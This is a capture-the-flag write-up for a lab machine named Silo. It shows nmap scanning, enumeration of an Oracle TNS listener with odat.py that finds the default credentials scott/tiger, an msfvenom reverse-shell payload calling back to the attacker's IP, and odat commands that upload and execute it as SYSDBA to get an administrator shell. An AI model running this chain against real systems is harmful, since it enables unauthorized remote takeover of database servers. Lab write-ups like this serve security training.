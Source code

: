 # Silo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.188 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:12 EDT
Warning: 10.129.95.188 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.188
Host is up (0.013s latency).
Not shown: 65350 closed tcp ports (conn-refused), 170 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
```

Lots of ports, including some I'm not familiar with like port 1521.

### Oracle RCE

I initially ran a few directory scans and SMB enumeration, but they all returned nothing interesting. So I decided to scan port 1521 in detail because I normally don't see that one.

```
$ sudo nmap -p 1521 -sC -sV -O -T4 10.129.95.188 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:15 EDT
Nmap scan report for 10.129.95.188
Host is up (0.0073s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

So this was an Oracle port. Based on Hacktricks, we can try using `odat.py` to attack this.

{% embed url="https://github.com/quentinhardy/odat" %}

We can run the enumeration to find all SIDs and possible passwords before attacking it.&#x20;

```
$ ./odat.py all -s 10.129.95.188 -p 1521 
<TRUNCATED OUTPUT>
[+] SIDs found on the 10.129.95.188:1521 server: XE
[+] Service Name(s) found on the 10.129.95.188:1521 server: XE,XEXDB
[+] Valid credentials found: scott/tiger. Continue...                  
```

We found the database and also some credentials, which I think is enough to exploit this system easily. With these, we can upload a reverse shell onto the server rather easily.&#x20;

First, we can create a reverse shell via `msfvenom`:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o rev.exe
```

Then we can run the following commands:

{% code overflow="wrap" %}
```
$ ./odat.py utlfile -s 10.129.95.188 -d XE -U scott -P tiger --sysdba --putFile \\temp rev.exe rev.exe

[1] (10.129.95.188:1521): Put the rev.exe local file in the \temp folder like rev.exe on the 10.129.95.188 server
[+] The rev.exe file was created on the \temp directory on the 10.129.95.188 server like the rev.exe file

$ ./odat.py externaltable -s 10.129.95.188 -p 1521 -d XE -U scott -P tiger --sysdba --exec \\temp rev.exe         

[1] (10.129.95.188:1521): Execute the rev.exe command stored in the \temp path
```
{% endcode %}

We would gain a reverse shell as the administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
